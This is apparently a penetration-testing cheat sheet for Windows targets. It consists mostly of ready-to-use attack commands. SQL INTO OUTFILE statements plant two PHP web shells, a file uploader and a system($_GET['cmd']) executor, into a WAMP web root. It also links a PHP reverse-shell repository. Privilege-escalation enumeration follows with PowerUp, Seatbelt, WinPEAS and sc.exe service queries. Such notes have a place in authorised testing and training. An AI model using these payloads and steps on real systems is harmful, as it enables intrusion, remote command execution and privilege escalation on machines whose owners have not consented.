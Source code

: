 Github Link: https://gist.github.com/BababaBlue/71d85a7182993f6b4728c5d6a77e669f

```sql
SELECT 
"<?php echo \'<form action=\"\" method=\"post\" enctype=\"multipart/form-data\" name=\"uploader\" id=\"uploader\">\';echo \'<input type=\"file\" name=\"file\" size=\"50\"><input name=\"_upl\" type=\"submit\" id=\"_upl\" value=\"Upload\"></form>\'; if( $_POST[\'_upl\'] == \"Upload\" ) { if(@copy($_FILES[\'file\'][\'tmp_name\'], $_FILES[\'file\'][\'name\'])) { echo \'<b>Upload Done.<b><br><br>\'; }else { echo \'<b>Upload Failed.</b><br><br>\'; }}?>"
INTO OUTFILE 'C:/wamp/www/uploader.php';
```
## Windows php Reverse shell:

Github Link : https://github.com/Dhayalanb/windows-php-reverse-shell

or 

```sql
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE 'C:/wamp/www/shell.php';
```


## Windows PrivEsc:

Automation:
```powershell
PS> . .\PowerUp.ps1
```
```powershell
PS> Invoke-AllChecks
```

Enumeration Tool [May give Privesc results]

https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Seatbelt.exe 
```powershell
PS> .\Seatbelt.exe all
```
**WinPeas:**

https://github.com/peass-ng/PEASS-ng/ >> Download only latest to get more accurate results!

Run a registry command to enable the colors if you are using GUI windows!
```powershell
> reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```
close the cmd and reopen 
```powershell
> .\winPeas.exe
```
Service Commands:
```powershell
> sc.exe qc <name>
```
```powershell
> sc.exe query
```
```powershell
> sc.exe query <name>
```
